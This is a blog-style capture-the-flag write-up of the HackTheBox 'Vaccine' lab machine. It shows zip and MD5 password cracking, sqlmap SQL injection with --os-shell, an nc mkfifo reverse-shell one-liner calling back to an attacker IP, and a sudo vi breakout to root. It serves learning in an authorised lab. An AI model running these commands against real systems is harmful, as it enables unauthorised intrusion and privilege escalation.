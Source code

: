 ## HTB Starting Point: Vaccine
Today I worked on a few of the starting point machines from HackTheBox, as I have decided to hang out over here more. I just wanted to work on some boxes without the hand holding I feel like TryHackMe does. I wanted to do something blindly here and figure it out on my own. That’s not to say anything bad about THM. I love it. It is a great site and I have learned a lot from it, but THM is for learning while HTB is for sharpening. It is the same thing just with the training wheels removed.
So, let us get started on the first of my HTB writeups I will start doing here. This is Vaccine, a standard webserver with some lite password cracking, automated SQL injection to gain a foothold, and a relatively quick privesc after the fact. 
 
### Recon
I began by quickly port scanning the server to see where I could get in. I found a few open ports like ftp (21), ssh (22), and http (80). However, the FTP caught my eye due to an accessible zip file which nmaps default script scan was able to catch.
   
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/nmap.jpg)
   
So, I accessed the ftp server as anonymous and was able to get the file onto my local machine. However, upon trying to access it, I found the zip was password protected. This is where this machine’s lite password cracking begins.  
I ran zip2john on the zip file and output the hash to a separate file which I could then run john on. 
```zip2john backup.zip > zip.hash```
```john zip.hash```
This gave me a password which I was able to use to unzip the backup.zip file. Contained inside were 2 files, index.php and style.css  
  
I figured these were files for the webserver but catted them out first to check. Turns out index.php had a username and password within. Though the password was hidden behind some md5. That’s easy enough to correct by using any number of tools. I like [CrackStation](https://www.crackstation.net)
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/index_cat.jpg)
  

After getting the username and password, it was time to go check out the website. 
 
I was greeted with a login page which gave me a chance to use the credentials. They worked
  
I found this lovely little page that appears to show a database of available models made by The MegaCorp Car Company.
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/cars.jpg)
  
Searching the catalog will change the URL to show you query in the URL. This seem like something that could be vulnerable to SQL injection. 
So, I decided to run sqlmap on it to see. 
``` sqlmap -u "http://10.129.95.174/dashboard.php?search=" --cookie="PHPSESSID="```
This confirmed that the search was indeed vulnerable to SQLI via the UNION operator. So, I reran the command with the ```--os-shell``` option to see if I could get a shell as the database user. 
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/oshell.jpg)
  
It worked! 
  
### Now to get a real shell. 
I decided to go over to [RevShellGenerator]( https://www.revshells.com/) to make a reverse shell that would work correctly. My go-to is the nc mkfifo option. Plugging in my machines IP and preferred port left me with this:

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.100 6666 >/tmp/f```
   
After setting up my netcat listener and dropping the rev shell into my os-shell, I got a connection!  
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/revshell.jpg)
  
A quick shell upgrade with

```python3 -c 'import pty; pty.spawn("/bin/bash")'```  
  
### Now to search for a path to escalation. 
Note: I kept experiencing drops of my shell around this time. Sqlmap was unable to connect to the site and I would often lose my reverse shell. I think this was the HTB network, but I could always be wrong. If you have any ideas let me know! I chose to work fast through this inconvenience so pardon the lack of images past this point.
Normally I would pull over a script like linpeas.sh but the drops made me have to work manually. So I went through the file system looking for interesting files to work with. 
Running sudo -l required a password I didn’t have yet.
So, I checked:
/home  
/tmp   
/var/www/html  
In /var/www/html I ran  

```grep -I -R “pass”*```  

And found a cleartext password for the postgres user. Now let’s try ```sudo -l```
This let me know, before disconnecting again, that I could run vi as root. I know for a fact that there is an entry on [GTFObins]( https://gtfobins.github.io/) for that.
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/gtfobins.jpg)
  
I dropped connection again. So, I decided to go back in through ssh using the password I just found. It worked much better for me after that.
Ok. So now that I have a more stable shell, I can take more descriptive pictures
   
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/sudol.jpg)
  
```sudo -l``` showed me that I can use vi to privesc. A quick search on GTFObins gave me a few attack options. I tried to run ``` sudo vi -c ':!/bin/sh' /dev/null``` but it wasn’t getting me anywhere.

Then I tried the shell breakout methods. Method A didn’t work but method B did. 

First, I ran ```sudo vi /etc/postgresql/11/main/pg_hba.conf```

Then once vi opened I typed 
  
:set shell=/bin/sh
:shell
  
This gave me root!
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/root.jpg)
  
All that was left was to enter my flags on HTB. 
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/pwnd.jpg)

Thanks for reading!
